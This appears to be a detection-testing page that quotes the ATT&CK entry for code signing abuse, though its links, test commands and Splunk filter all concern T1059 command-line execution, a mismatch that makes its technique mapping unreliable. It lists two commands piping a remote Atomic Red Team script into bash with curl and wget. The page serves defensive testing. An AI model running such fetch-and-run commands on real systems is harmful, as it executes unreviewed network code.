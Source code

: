 # T1116 - Code Signing
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1059)
<blockquote>
Code signing provides a level of authenticity on a binary from the developer and a guarantee that the binary has not been tampered with. [1] However, adversaries are known to use code signing certificates to masquerade malware and tools as legitimate binaries [2]. The certificates used during an operation may be created, forged, or stolen by the adversary. [3] [4]

Code signing to verify software on first run can be used on modern Windows and macOS/OS X systems. It is not used on Linux due to the decentralized nature of the platform. [1]

Code signing certificates may be used to bypass security policies that require signed code to execute on a system.
</blockquote>

## Assumptions
Attacker or local user has access to command propmpt or powershell

## Execution:
[Test using Atomic Red Team](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1059/T1059.md)

<blockquote>
```
bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
bash -c "wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Atomics/T1059/echo-art-fish.sh | bash"
```
</blockquote>

or any commandline or powershel command

## Detection:
* Monitor CommandLine activity (including powershell)
* [Read Mitre ATT&CK for more Detection info](https://attack.mitre.org/wiki/Technique/T1059)

### Visibility
* Windows event log
* Enable Commandline audit
* Command line / Powershell activity

### Filter / Correlation in Splunk
Following catch both comandline and powershell, although they can be separated in two. 

```
"CommandLine:*"
```

![Splunk Detection](https://github.com/avaplex/dpi911/blob/master/images/T1059.JPG)
